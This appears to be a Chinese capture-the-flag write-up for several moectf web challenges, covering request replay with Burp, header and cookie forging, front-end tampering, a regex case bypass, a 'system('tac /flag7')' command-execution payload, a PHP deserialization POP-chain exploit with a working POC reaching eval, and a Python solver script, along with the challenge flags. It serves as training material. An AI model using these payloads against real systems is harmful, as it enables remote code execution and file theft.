





ProveYourLove

# 源码
<!DOCTYPE html>
<html>
<head>
<title>表白墙</title>
<meta charset="utf-8">
<style>
body {
font-family: Arial, sans-serif;
margin: 20px;
padding: 0;
background-image: url('static/image.jpg');
background-size: cover;
background-repeat: no-repeat;
background-position: center center;
color: #fff;
}
.container {
max-width: 600px;
margin: 0 auto;
background: rgba(0, 0, 0, 0.6); /* 半透明背景 */
padding: 20px;
border-radius: 8px;
}
h1 {
text-align: center;
margin-top: 0;
}
form {
margin-bottom: 20px;
}
label {
display: block;
margin-top: 10px;
}
input[type="text"], textarea, select {
width: calc(100% - 16px); /* 统一宽度，减去内边距 */
padding: 8px;
margin-top: 5px;
border-radius: 4px;
border: 1px solid #ddd;
background-color: rgba(255, 255, 255, 0.2); /* 半透明背景 */
color: #fff;
box-sizing: border-box; /* 确保宽度包括内边距和边框 */
}
textarea {
width: calc(100% - 16px); /* 确保文本区域宽度一致 */
}
input[type="submit"] {
margin-top: 10px;
padding: 10px 20px;
font-size: 16px;
background-color: #4CAF50;
color: white;
border: none;
border-radius: 4px;
cursor: pointer;
}
input[type="submit"]:hover {
background-color: #45a049;
}
.status {
margin-top: 20px;
text-align: center;
font-size: 18px;
}
</style>
</head>
<body>
<div class="container">
<h1>表白墙</h1>
<form id="confessionForm">
<label for="nickname">昵称:</label>
<input type="text" id="nickname" name="nickname" required placeholder="输入您的昵称">
<label for="user_gender">您的性别:</label>
<select id="user_gender" name="user_gender" required>
<option value="male">男</option>
<option value="female">女</option>
<option value="other">其他</option>
</select>
<label for="target">表白对象:</label>
<input type="text" id="target" name="target" required placeholder="输入您表白的对象">
<label for="target_gender">表白对象的性别:</label>
<select id="target_gender" name="target_gender" required>
<option value="male">男</option>
<option value="female">女</option>
<option value="other">其他</option>
</select>
<label for="message">表白内容:</label>
<textarea id="message" name="message" rows="6" required placeholder="输入您的表白内容"></textarea>
<label for="anonymous">是否匿名:</label>
<select id="anonymous" name="anonymous" required>
<option value="false">不匿名</option>
<option value="true">匿名</option>
</select>
<input type="submit" value="提交表白">
</form>
<div class="status">
当前表白份数: <span id="confessionCount">加载中...</span><br>
flag: <span id="flag">访问confession_count获取</span><br>
Qixi_flag: <span id="Qixi_flag">访问questionnaire_count获取</span>
</div>
</div>
<script>
document.addEventListener('DOMContentLoaded', function() {
// 获取当前表白份数
fetch('/confession_count')
.then(response => response.json())
.then(data => {
document.getElementById('confessionCount').textContent = data.count;
document.getElementById('flag').textContent = data.flag;
document.getElementById('Qixi_flag').textContent = data.Qixi_flag;
})
.catch(error => {
console.error('Error:', error);
});
});
document.getElementById('confessionForm').addEventListener('submit', function(event) {
event.preventDefault(); // 阻止表单的默认提交行为
// 检查设备是否已提交过表白
if (localStorage.getItem('confessionSubmitted')) {
alert('您已经提交过表白，不能重复提交。');
return;
}
// 发起 OPTIONS 请求
fetch('/questionnaire', {
method: 'OPTIONS'
})
.then(response => {
if (!response.ok) {
throw new Error('OPTIONS 请求失败');
}
// 获取表单数据
const formData = new FormData(event.target);
const data = {};
formData.forEach((value, key) => {
data[key] = value;
});
// 提交表白数据
return fetch('/questionnaire', {
method: 'POST',
headers: {
'Content-Type': 'application/json'
},
body: JSON.stringify(data)
});
})
.then(response => response.json())
.then(result => {
if (result.success) {
alert('表白提交成功！');
localStorage.setItem('confessionSubmitted', 'true');
// 更新表白份数
fetch('/confession_count')
.then(response => response.json())
.then(data => {
document.getElementById('confessionCount').textContent = data.count;
document.getElementById('flag').textContent = data.flag;
document.getElementById('Qixi_flag').textContent = data.Qixi_flag;
})
.catch(error => {
console.error('Error:', error);
});
} else {
alert('表白提交失败，请稍后重试。');
}
})
.catch(error => {
console.error('Error:', error);
});
});
</script>
</body>
</html>
题目给了Hint，必须发送300次才可以得到flag
问题在于，每次发送后会在本地储存confessionSubmitted=true这样的话第二次储存就会不允许发送
于是只要在发起请求的时候加上 Cache-Control: no-store来阻止进行本地储存，使用burp发送300遍即可得到flag
当前表白份数: 329
flag: moectf{c0NgRaTuL@tioNs-ON-6EC0M1Ng-4-Lick1NG_dOG48}
Qixi_flag: moeCTF{Happy_Chin3s3_Va13ntin3's_Day,_Baby.}弗拉格之地的挑战
web 七龙珠
欢迎来到弗拉格之地进行 web 七龙珠试炼
在这里，你将根据引导，完成数个任务，从而获得名为 flag 的东西
本次我们采用一个叫做分段 flag 的东西，将 flag 分为七颗龙珠，集齐七颗龙珠就可以获得最终的 flag
在这次挑战中，请随时准备好你的记事本哦
现在我们开始，提示在下面 ↓
/flag1ab.html
<html>
<head>
<meta charset="UTF-8">
<title>flag1</title>
</head>
<body>
<p>至少你会跳转 url (bushi</p>
<p>现在是第一道题，我们学习的是： html </p>
<p>这行字的下面一片空白，但是真的什么也没有吗？</p>
<!--恭喜你找到了网页的源代码，通常在这里题目会放一些提示，做题没头绪一定要先进来看一下-->
<!--flag1: bW9lY3Rm-->
<!--下一步：/flag2hh.php-->
</body>
</html>
恭喜你已经学会了如何查看网页源代码，但这还不够
这是第二题，本题关键词： http
想想服务器通过网络传输过来的，除了这个页面，还有什么？
# 抓包
flag2: e0FmdEV
nextpage: /flag3cad.php我想，你应该已经知道 devtools 这个东西了。(不知道也没关系，你 f12 出来的就是 devtools)
那么现在在你面前的有两个教程：
\1. 尝试把 devtools 运用熟练
\2. 尝试下载一个别的什么玩意来使用
这题，我们还是学习 http
那么，我们来试一下同时把下面要求完成吧！
-————————————————————————–
请用 GET 方法传入一个 a 参数
再用 POST 方法传入一个 b 参数
你需要使用 admin 的身份验证
恭喜你已经基本掌握了 http 的最最最基础知识，先去下一关吧
flag3: yX3RoMXNPOST /flag3cad.php?a=1 HTTP/1.1
Host: localhost:8846
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: verify=admin
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 3
b=1虽然但是，响应头有个fxxk: /flag3.php
啊？难道你不是从 http://localhost:8080/flag3cad.php?a=1 点击链接过来的吗？
坏了，肯定是哪里搞错了，要不你看看能不能自己临时凑合凑合？
Referer: http://localhost:8080/flag3cad.php?a=1
<head>
<meta charset="UTF-8">
<title>flag4</title>
</head>
ok, 你成功闯入了第四关！<br>本关考验你听声辩位的功夫，你需要按下开始按钮后，根据提示按下相应的按钮。<br><button onclick="start()">开始</button>
<span id="num"></span>
<br>
<div id="scope">
<button onclick="getID(this)">1</button>
<button onclick="getID(this)">2</button>
<button onclick="getID(this)">3</button>
<button onclick="getID(this)">4</button>
<button onclick="getID(this)">5</button>
<button onclick="getID(this)">6</button>
<button onclick="getID(this)">7</button>
<button onclick="getID(this)">8</button>
</div>
<script>
var buttons = document.getElementById("scope").getElementsByTagName("button");
for (var i = 0; i < buttons.length; i++) {
buttons[i].id = i + 1;
}
function start() {
document.getElementById("num").innerText = "9";
}
function getID(button) {
if (button.id == 9) {
alert("你过关！（铜人震声）\n我们使用 console.log 来为你生成 flag");
fetch('flag4bbc.php', {
method: 'post',
body: 'method=get',
headers: {
'Content-Type': 'application/x-www-form-urlencoded',
},
}).then((data) => {
return data.json();
}).then((result) => {
console.log(result.hint);
console.log(result.fll);
console.log(result.goto)
});
} else {
alert("该罚！(头部碰撞声)")
}
}
</script>
添加一个button即可
恭喜你！你已经知道，前端的一切都是可以更改的！
flag4: fdFVUMHJ
前往：/flag5sxr.php<script>
function checkValue() {
var content = document.forms["form"]["content"].value;
if (content == "I want flag") {
alert("你就这么直接？");
return false;
} else {
return true;
}
}
</script>burp抓包发送
恭喜，我相信你已经深刻了解了前端不可信任的道理!
flag5: fSV90aDF<?php
highlight_file("flag6diw.php");
if (isset($_GET['moe']) && $_POST['moe']) {
if (preg_match('/flag/', $_GET['moe'])) {
die("no");
} elseif (preg_match('/flag/i', $_GET['moe'])) {
echo "flag6: xxx";
}
}提示已经很明显了，大小写绕过
flag6: rZV9VX2t
POST: what=system('tac /flag7');
flag7:rbm93X1dlQn0=flag: bW9lY3Rme0FmdEVyX3RoMXNfdFVUMHJfSV90aDFrZV9VX2trbm93X1dlQn0= base64-->
moectf{AftEr_th1s_tUT0r_I_th1ke_U_kknow_WeB}pop moe
<?php
class class000 {
private $payl0ad = 0;
protected $what;
public function __destruct()
{
$this->check();
}
public function check()
{
if($this->payl0ad === 0)
{
die('FAILED TO ATTACK');
}
$a = $this->what;
$a();
}
}
class class001 {
public $payl0ad;
public $a;
public function __invoke()
{
$this->a->payload = $this->payl0ad;
}
}
class class002 {
private $sec;
public function __set($a, $b)
{
$this->$b($this->sec);
}
public function dangerous($whaattt)
{
$whaattt->evvval($this->sec);
}
}
class class003 {
public $mystr;
public function evvval($str)
{
eval($str);
}
public function __tostring()
{
return $this->mystr;
}
}
if(isset($_GET['data']))
{
$a = unserialize($_GET['data']);
}
else {
highlight_file(__FILE__);
}
可以利用的函数是class003类的evvval函数里的eval，然后反推看看怎么触发。
1.class002类的dangerous函数，如果$whaattt为class003类，就可以触发evvval
2.同类下的__set可以触发dangerous，$b为dangerous，$sec就是要传递的参数，就是class003
3.同时我们发现一个问题，如果此时$sec为class003，那么作为evvval函数的参数，要求传入的变量是字符串，但是我们传入的是一个类，进而就会触发__tostring函数，返回~类的$mystr，所以只要给$mystr赋值，就解决了eval函数的参数问题
__toString() //---- 把类当作字符串使用时触发4.接着反向分析，如何触发__set
__set() //--------- 用于将数据写入不可访问的属性
class test {
private $name = "Jay";
public function __set($name, $input)
{
$this->$name = $input;
}
}
$test = new test();
$test->$name = "David"; # 因为name为私有变量，所以一般来说无法直接赋值的，所以此时会触发__set魔术方法
echo $test->$name; # 输出"David"在class001类中__invoke函数，如果$a为class002，那么在class002中并没有payload这样的属性，于是会触发class002中的__set，此时$this->payl0ad即为上述例子中的$input，也是题目中__set中的$b，所以只需要让$payl0ad为dangerous即可
5.如何触发__invoke
__invoke() //------ 当尝试将对象调用为函数时触发很容易发现只需要将class000类中的$what赋值为class001即可触发__invoke()
至此，完整的pop链为
class000.__destruct() --> class000.check() --> class001.__invoke() --> class002.__set() --> class002.dangerous() --> class003.evvval() --> class003.__tostring()POC:
<?php
class class000 {
private $payl0ad = 1;
public $what; // protected
}
class class001 {
public $payl0ad = 'dangerous';
public $a;
}
class class002 {
public $sec;
}
class class003 {
public $mystr;
}
$a = new class000();
$a->what =new class001();
$a->what->a = new class002();
$a->what->a->sec = new class003();
$a->what->a->sec->mystr = "phpinfo();";
echo urlencode(serialize($a));
moectf{1T_sEEmS_tH@t-YOU_Know-WH4t-is-pOP-lN_pHPpPpPPp!!!39} 勇闯铜人阵

有时间限制，所以基本思路就是写脚本通关
import requests
from bs4 import BeautifulSoup
import re
def getKeyword(response):
beautiful_soup = BeautifulSoup(response.text, "html.parser")
key_text = beautiful_soup.find("h1", id="status")
print(key_text.text.strip())
return key_text
direct_dic = {
'1': "北方一个",
'2': "东北方一个",
'3': "东方一个",
'4': "东南方一个",
'5': "南方一个",
'6': "西南方一个",
'7': "西方一个",
'8': "西北方一个"
}
url = "http://localhost:7650/"
response = requests.get(f"{url}restart")
getKeyword(response)
session = requests.Session()
post_data = {
"player": "hsad",
"direct": "弟子明白"
}
headers = {"Content-Type": "application/x-www-form-urlencoded"}
print(post_data)
response = session.request("POST", url, data=post_data, headers=headers)
for _ in range(100): # 7, 1
res = getKeyword(response)
match = re.findall(r'(\d+)', res.text)
# print(match)
number = [int(num) for num in match]
# print(number)
if ', ' in res.text:
post_data['direct'] = f"{direct_dic[str(number[0])]}，{direct_dic[str(number[1])]}"
print(post_data)
else:
post_data['direct'] = direct_dic[str(number[0])]
print(post_data)
response = session.post(url, data=post_data, headers=headers)
# print(response.text)
if res is not None and 'moectf' in response.text:
match = re.search(r'moectf(.*)', response.text)
if match:
print(f"{match.group(0)[:-6]}")
exit(0)
